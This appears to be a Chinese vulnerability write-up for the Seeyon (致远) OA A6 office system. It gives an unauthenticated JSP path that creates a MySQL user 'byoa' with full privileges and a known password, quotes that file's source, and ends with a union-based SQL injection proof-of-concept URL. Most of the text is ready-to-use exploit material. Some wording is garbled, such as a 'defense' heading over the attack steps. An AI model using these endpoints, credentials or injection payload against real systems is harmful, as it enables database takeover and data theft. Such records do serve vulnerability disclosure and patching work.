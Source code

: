 致远OA A6 重置数据库账号密码漏洞
================================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

### 重置数据库账号密码防御

    http://www.0-sec.org/yyoa/ext/byoa/start.jsp

该文件的代码为：

    <%    Connection conn = null;    PreparedStatement pstmt = null;    String sql = "create user byoa IDENTIFIED by 'byoa'";    try {        conn = null;//net.btdz.oa.common.ConnectionPoolBean.getConnection();        pstmt = conn.prepareStatement(sql);        out.print(pstmt.executeUpdate());        sql = "grant all on *.* to byoa";        pstmt = conn.prepareStatement(sql);        out.println(pstmt.executeUpdate());        pstmt.close();        sql = "update mysql.user set password=password('byoa') where user='byoa'";        pstmt = conn.prepareStatement(sql);        out.println(pstmt.executeUpdate());        pstmt.close();        sql = "flush privileges";        pstmt = conn.prepareStatement(sql);        out.print(pstmt.executeUpdate());        pstmt.close();        //conn.close();    } catch (Exception ex) {                    out.println(ex.getMessage());    }%>

可以抛光该文件没有验证任何权限，便进行了重置数据库用户byoa的密码为：byoa

### mysql + jsp注射

    http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp

### poc

    http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp?user_ids=(17) union all select user()%23{'success':false,'errors':'root@localhost'
